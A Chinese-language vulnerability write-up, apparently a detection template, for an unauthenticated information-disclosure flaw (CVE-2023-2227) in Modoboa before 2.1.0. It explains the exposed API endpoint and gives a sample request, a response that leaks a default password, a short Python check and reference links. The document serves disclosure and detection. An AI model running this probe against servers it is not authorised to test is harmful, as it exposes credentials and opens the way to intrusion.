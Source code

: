 # Modoboa < 2.1.0 未授权信息泄露漏洞（CVE-2023-2227）

## 漏洞简介
Modoboa 2.1.0 之前版本存在权限控制不当漏洞，攻击者可通过未授权访问 API 获取敏感配置信息，包括默认密码、认证类型等，造成信息泄露。

## 影响范围
- 受影响产品：Modoboa < 2.1.0
- CPE: `cpe:2.3:a:modoboa:modoboa:*:*:*:*:*:*:*:*`

## 漏洞原理
API `/api/v2/parameters/core/` 权限校验不严，攻击者可直接访问并获取包含敏感字段的 JSON 数据，导致信息泄露。

## 利用方式与攻击流程
1. 攻击者无需认证，直接访问 `/api/v2/parameters/core/`。
2. 响应返回包含 `label`、`default_password`、`authentication_type` 等敏感字段。
3. 攻击者可据此进行进一步攻击或渗透。

## 探测原理与流程
### 请求包示例
```http
GET /api/v2/parameters/core/ HTTP/1.1
Host: target.com
User-Agent: 7h3h4ckv157
```

### 响应示例
```json
HTTP/1.1 200 OK
Content-Type: application/json

{
  "label": "Modoboa",
  "default_password": "modoboa123",
  "authentication_type": "local"
}
```

### 判定逻辑
- 响应状态码为 200。
- 响应头包含 `application/json`。
- 响应体中包含 `label`、`default_password`、`authentication_type`。

### 伪代码
```python
headers = {"User-Agent": "7h3h4ckv157"}
resp = requests.get('http://target.com/api/v2/parameters/core/', headers=headers)
if resp.status_code == 200 and resp.headers.get('Content-Type') == 'application/json' and all(x in resp.text for x in ["label", "default_password", "authentication_type"]):
    print('存在未授权信息泄露漏洞')
```

### Mermaid 流程图
```mermaid
flowchart TD
    A[开始] --> B[直接访问 /api/v2/parameters/core/]
    B --> C[检查响应头和内容]
    C --> D{是否包含敏感字段?}
    D -- 否 --> E[不存在漏洞]
    D -- 是 --> F[存在未授权信息泄露漏洞]
```

## 参考链接
- [Huntr 漏洞赏金平台](https://huntr.com/bounties/351f9055-2008-4af0-b820-01ff66678bf3)
- [修复提交](https://github.com/modoboa/modoboa/commit/7bcd3f6eb264d4e3e01071c97c2bac51cdd6fe97)
- [NVD 官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2023-2227) 